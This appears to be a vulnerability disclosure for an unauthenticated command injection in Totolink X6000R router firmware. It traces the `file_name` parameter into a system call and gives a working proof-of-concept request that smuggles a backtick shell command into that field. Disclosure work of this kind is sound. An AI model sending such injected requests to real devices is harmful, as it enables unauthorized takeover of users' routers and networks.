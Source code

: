 # UploadFirmwareFile

**Overview**

- Vendor: TOTOLINK
- Product: Totolink X6000R
- Version: V9.4.0cu.1360_B20241207
- Manufacturer's address：[https://www.totolink.net/](https://www.totolink.net/)
- Firmware download address : [https://www.totolink.net/data/upload/20250328/7a1a804767bc5b1196c480f62c40a20e.rar](https://www.totolink.net/data/upload/20250328/7a1a804767bc5b1196c480f62c40a20e.rar)

**Vulnerability details**

Totolink X6000R V9.4.0cu.1360_B20241207 was found to contain a command injection vulnerability in the `sub_417D74` function via the `file_name` parameter. This vulnerability allows unauthenticated attackers to execute arbitrary commands via a crafted request.

**Analyse**

- In the binary file `shttp`, the function `sub_417D74` retrieves the `file_name` parameter, passes it to the function `firmware_check`

![image.png](UploadFirmwareFile%2020e8aff2dc8b80b09ab3ea5a78181699/image.png)

- In the binary file `libcscommon.so` ,the `firmware_check` function passes the value `a1` to the `do_system` function to execute a command.

![image.png](UploadFirmwareFile%2020e8aff2dc8b80b09ab3ea5a78181699/image%201.png)

**Request**

```python
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.210.133:8080
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 106

{"file_name": "1`ls>/web/cmd3.txt`","content_length":"100","topicurl":"UploadFirmwareFile","token":"1234"}
```

**Response**

```python
HTTP/1.0 200 OK
Server: SHTTPD 
Date: Tue, 10 Jun 2025 08:06:42 GMT
X-UA-Compatible: IE=edge
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Expires: -1
Content-Type: application/json
Connection: close

{
	"upgradeERR":	"MM_cloud_fw2flash1"
}
```

**PoC**

![image.png](UploadFirmwareFile%2020e8aff2dc8b80b09ab3ea5a78181699/image%202.png)

![image.png](UploadFirmwareFile%2020e8aff2dc8b80b09ab3ea5a78181699/image%203.png)
